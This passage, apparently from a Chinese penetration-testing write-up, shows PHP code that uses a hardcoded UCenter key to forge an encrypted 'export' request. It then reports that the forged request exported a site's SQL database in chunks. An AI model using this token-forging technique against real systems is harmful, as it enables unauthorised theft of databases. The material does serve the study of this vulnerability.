 ```php
		$box[$a] = $box[$j];
		$box[$j] = $tmp;
		$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
	}

	if($operation == 'DECODE') {
		if(((int)substr($result, 0, 10) == 0 || (int)substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) === substr(md5(substr($result, 26).$keyb), 0, 16)) {
			return substr($result, 26);
		} else {
				return '';
			}
	} else {
		return $keyc.str_replace('=', '', base64_encode($result));
	}

}

$UC_KEY = 'N8ear1n0q4s646UeZeod130eLdlbqfs1BbRd447eq866gaUdmek7v2D9r9EeS6vb';
$params = "time=".time()."&method=export";
$code = _authcode($params, 'ENCODE', $UC_KEY);

echo $code."\n";
parse_str(_authcode($code, 'DECODE', $UC_KEY), $get);
echo var_dump($get);
```

![](images/one_job-15.webp)

拿到请求器发送请求可以看到成功导出了 SQL 文件，并且 `<nexturl>` 标签附上了下一段 SQL 的请求 URL:
